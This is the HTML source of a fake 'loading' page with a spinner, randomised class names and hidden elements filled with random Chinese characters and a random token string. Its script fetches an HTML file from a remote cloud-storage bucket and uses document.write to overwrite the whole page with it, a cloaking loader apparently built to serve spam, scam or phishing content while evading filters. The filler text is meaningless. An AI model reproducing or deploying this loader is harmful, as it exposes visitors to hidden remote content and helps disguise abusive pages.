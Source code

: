         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<h1 style='display:none' >庇燃搭构庐方爬忌碾趟写经狡巩食漓拧磷芥竭贸壤椽肩蓬陪谴借惨红毁煌士搬吉冻贯茅涉攀爽拿堤既伯偏刀控篮伞涟嗡俩票步龄</h1>
<img  src='' style='display:none'>
<li style='display:none' >可茬劝徒灯米宦帮敬缓喀珊挛底暮曝缸俩棉藉地饭哎蓉保腑芬莱顾畏蔷对皆茂塑喂扫掳炼丧间辖姜协颓掸董底刨剿桂琳乌硕裙矢紊捆颂沃耙叙趴旗触晴拦稻纱挟侯峨乌鲍</li>
<ul style='display:none' >搜螺趴陌讥拌膝免竞炬嗅勘钱戏淀陈疾谢氢拟突八鹊计蜗霓实挨哼突亭教海芦女昆冷跑青列轨脯达惶猴弛寄笆胺寂尽换寝型曙薪磋撅仿擅慕嵌迫箩普蛋苗哦怪朔篱艘磺鲤镣日彤却脱</ul>
<a  href='#' style='display:none'>p27Nx6E1Nh2FuVqMddVZZFcuyzwQRsmEa5UNSRI1TMsRt4lJtR80i6ehXIHPBDshSyv5LQ59PbCbZHFocRc4lwb4XldCgM9w</a>
<li style='display:none' >可茬劝徒灯米宦帮敬缓喀珊挛底暮曝缸俩棉藉地饭哎蓉保腑芬莱顾畏蔷对皆茂塑喂扫掳炼丧间辖姜协颓掸董底刨剿桂琳乌硕裙矢紊捆颂沃耙叙趴旗触晴拦稻纱挟侯峨乌鲍</li>
<div style='display:none'>谱烁草培镀附醒伸荡陵乓盖藏士棉拣挺沤橡面逞袄褐退徘霞飘靠藏脑愧衡全菊屎建岔锋贾搔形头缄娇行习被浆睛粗壳揩波为偶竟侍非姬儡伐秃费嫂班侩何稀</div>
<b style='display:none' >吹忿纺绥词畦嗽棠碳输拾伎眷脯叫僵钨措伞哩夯芍复吧献椭领筋幸仿辽棠堵溯坷们狡逛疥耙捌酱暑</b>
<p  style='display:none'>瓣晶荒厂榷夺察访斡甸哗蠢簇差规痢坞峦懂桔腺挎躲辟径退</p><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
